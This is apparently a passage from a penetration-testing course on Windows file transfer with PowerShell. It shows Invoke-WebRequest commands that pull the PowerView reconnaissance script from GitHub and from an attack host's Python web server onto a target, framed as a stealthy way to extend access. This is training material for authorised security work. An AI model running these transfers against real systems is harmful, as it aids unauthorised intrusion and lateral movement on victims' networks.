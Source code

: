 ```
-Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"
```

After the URL, we specify the location and file name of the resource on the Windows system we are downloading it from:

```
-OutFile "C:\PowerView.ps1"
```

We can also use `Invoke-WebRequest` to download files from web servers on the local network or a network reachable from the Windows target. It is common to find the need to transfer files from our attack host to a Windows target. One benefit to doing this would be if one of our goals during a pentest is to remain as stealthy as possible, we may not need to generate requests to the Internet that network security appliances could detect at the edge of the network. If we already had `PowerView.ps1` stored on our attack host we could use a simple python web server to host `PowerView.ps1` and download it from the target.

### Example Path to Bring Tools Into an Environment

If we already had `PowerView.ps1` stored on our attack host we could use a simple Python web server to host `PowerView.ps1` and download it from the target. From the attack host, we want to confirm that the file is already present or we need to download it. In this example, we can assume it is already on the attack host for demonstration purposes.

#### Using `ls` to View the File (Attack Host)

```powershell
z0x9n@htb[/htb]$ ls

Dictionaries            Get-HttpStatus.ps1                    Invoke-Portscan.ps1          PowerView.ps1  Recon.psd1
Get-ComputerDetail.ps1  Invoke-CompareAttributesForClass.ps1  Invoke-ReverseDnsLookup.ps1  README.md      Recon.psm1
```

We start a simple python web server in the directory where `PowerView.ps1` is located.

#### Starting the Python Web Server (Attack Host)

```powershell
z0x9n@htb[/htb]$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then, we would download the hosted file from the attack host using `Invoke-WebRequest`.

#### Downloading PowerView.ps1 from Web Server (From Attack Host to Target Host)

```powershell
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

As discussed previously, we can use the `Invoke-WebRequest` cmdlet to send commands to remote hosts. This can be pretty useful, especially when we discover vulnerabilities that allow us to execute commands on a Windows target but may not have access via an interactive shell or remote desktop session. This could allow us to download files onto the target host, allowing us to further our access to that target and move to others on the network. File transfer methods are covered in greater detail in the module File Transfers.
